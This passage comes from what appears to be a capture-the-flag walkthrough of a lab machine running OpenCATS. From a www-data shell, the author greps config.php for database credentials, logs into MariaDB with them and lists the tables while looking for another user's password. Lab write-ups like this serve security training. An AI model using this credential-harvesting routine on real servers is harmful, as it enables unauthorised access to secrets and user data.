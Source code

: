 If you head to `/var/www/opencats`, you can find a file called `config.php`. By looking through this file, you can find the creds for the database:

~~~
www-data@empline:/var/www/opencats$ grep DATABASE config.php
define('DATABASE_USER', 'james');
define('DATABASE_PASS', 'n[REDACTED]w');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'opencats');
~~~

### Finding george's Password

Now we have credentials for the database, so let's connect to it and see what we can find there. Thankfully `mysql` is installed on the machine:

~~~
www-data@empline:/var/www/opencats$ mysql -u james -h localhost -p opencats
Enter password: n[REDACTED]w

[SNIP]

MariaDB [opencats]>
~~~

Let's list the databases first:

~~~
MariaDB [opencats]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| opencats           |
+--------------------+
2 rows in set (0.00 sec)
~~~

`opencats` database is already in use, so let's check its tables:

~~~
MariaDB [opencats]> show tables;
+--------------------------------------+
| Tables_in_opencats                   |
+--------------------------------------+
| access_level                         |
| activity                             |
|                                      |
| [SNIP]                               |
|                                      |
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
54 rows in set (0.00 sec)
~~~
